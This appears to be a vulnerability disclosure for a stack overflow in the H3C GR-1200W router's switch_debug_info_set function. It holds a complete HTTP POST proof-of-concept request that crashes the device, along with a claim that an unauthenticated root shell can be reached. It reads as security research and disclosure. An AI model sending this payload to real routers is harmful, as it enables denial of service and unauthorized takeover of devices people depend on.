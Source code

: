 # H3C GR-1200W (<=MiniGRW1A0V100R006) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to have a stack overflow vulnerability in the switch_debug_info_set function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220724213415656](img/image-20220724213415656.png)

In the `switch_debug_info_set` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%d;%d;%d;%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V9`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=switch_debug_info_set&param=1;2;3;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;
```

![image-20220724220946426](img/image-20220724215411671.png)

The picture above shows the process information before we send poc.

![image-20220724221039594](img/image-20220724215659752.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220724220011366](img/image-20220724220011366.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.
